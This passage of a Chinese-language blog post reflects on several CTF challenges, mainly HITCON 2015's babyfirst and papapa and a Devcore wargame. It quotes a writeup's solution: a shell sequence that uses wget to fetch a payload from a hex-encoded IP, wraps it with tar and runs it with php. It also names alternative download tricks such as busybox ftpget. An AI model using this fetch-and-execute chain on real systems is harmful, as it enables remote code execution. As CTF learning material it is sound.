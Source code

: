 在爬了一個多小時的文之後，果斷去看 writeup🥹。
```
mkdir orange
cd orange
wget HEXED_IP
tar cvf payload orange
php payload
```
看了我還是不懂，php 怎麼可能執行 tar 後的檔案，實際試了一次後，還真的可以直接執行😱，為什麼會有這種 feature？！

除此之外還有
- wget 302 重導向到 ftp，可以解決 index.html 預設檔名的問題。
- busybox ftpget
- twistd telnet

這些解法確實是超出我的理解範圍了。

Reference:
- https://kb.hitcon.org/post/131488130087/hitcon-ctf-2015-quals-web-%E5%87%BA%E9%A1%8C%E5%BF%83%E5%BE%97

### 其他題
其他題我還沒打，網站就關了，88。

### 心得

#### papapa
資訊收集的部分要再細心一點，都用 nmap 去掃這網站的 ip 了，卻沒注意到憑證這個部分。
另外意外的收穫就是從 orange 架這題目的 src，學到了 apache 的 virtual host 這個 feature，
原來有這種酷東西，感覺架網站時很有用，並且底層是檢查 http header 中的 `host:` 進行轉送的。
Reference:
- https://github.com/orangetw/My-CTF-Web-Challenges#papapa
- https://blog.51cto.com/milenovo/1698875
- https://httpd.apache.org/docs/2.4/vhosts/name-based.html

#### yeeclass
這一個我感覺就差一點，我因為原本的想法失敗就放棄了，但我認為我是有能力觀察到 uniuid 那邊的貓膩的，
這邊沒有堅持住，搥牆，要改進才行。
在說做不到之前，必須好好確認是不是還有其他可以利用的線索還沒觀察到的。

#### babyfirst
看完 writeup 後，我難得慶幸還好我有看，因為我真的想不出來這幾招...學到了。
還有一個原因可能是我對 linux 的 core util 太不熟了，希望未來會慢慢改善。

## Devcore wargame

### first-flag(有點忘記，應該是叫這名子沒錯)
隨便輸入一串 user，登入後會要你輸入 flag，超過 5 分會給你這一題的 flag
{% asset_img first-flag-1.png 450 %}
{% asset_img first-flag-2.png 450 %}
(搞笑的是我一開始以為 flag 是 `FLAG{this_is_the_first_flag}`，拿去輸入想說怎麼是錯的)
